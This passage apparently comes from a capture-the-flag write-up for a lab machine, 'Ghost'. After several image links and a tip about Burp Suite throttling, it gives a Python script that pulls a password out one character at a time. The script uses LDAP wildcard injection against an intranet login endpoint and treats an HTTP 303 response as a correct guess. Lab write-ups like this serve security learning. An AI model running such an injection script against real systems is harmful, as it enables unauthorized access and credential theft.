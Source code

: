 ![image](https://github.com/user-attachments/assets/e4b221c6-b39b-4fbc-bcfa-2bc03a6eea4d)

![image](https://github.com/user-attachments/assets/5b7bbc36-6f19-4e95-a078-c740d9664112)

![image](https://github.com/user-attachments/assets/967202ae-85a5-490b-9f4f-6ef6c9f9000d)

![image](https://github.com/user-attachments/assets/a2413aa3-e743-44be-92b6-913a23cea376)

![image](https://github.com/user-attachments/assets/9a360cb5-76e3-48df-a59b-ab7ede2335a6)

![image](https://github.com/user-attachments/assets/a2c5561d-face-4dad-a9c4-fe32ee644faa)

#### 4.2.2. Option 2: Python script

> [!Tip]
>
> Brute force using Burp Suite is nearly impossible because of the free edition rate throttle
>
> Using the Python script method would make more sense
>
> The script took only 9 seconds to complete

```py
import string
import requests

url = 'http://intranet.ghost.htb:8008/login'

headers = {
    'Host': 'intranet.ghost.htb:8008',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate, br',
    'Next-Action': 'c471eb076ccac91d6f828b671795550fd5925940',
    'Connection': 'keep-alive'
}

files = {
    '1_ldap-username': (None, 'gitea_temp_principal'),
    '1_ldap-secret': (None, 's*'),
    '0': (None, '[{},"$K1"]')
}


passw = ""
while True:
    for char in string.ascii_lowercase + string.digits:
        files = {
            '1_ldap-username': (None, 'gitea_temp_principal'),
            '1_ldap-secret': (None, f'{passw}{char}*'),
            '0': (None, '[{},"$K1"]')
        }
        res = requests.post(url, headers=headers, files=files)
        if res.status_code == 303:
            passw += char
            print(f"Passwd: {passw}")
            break
    else:
        break
print(passw)
```
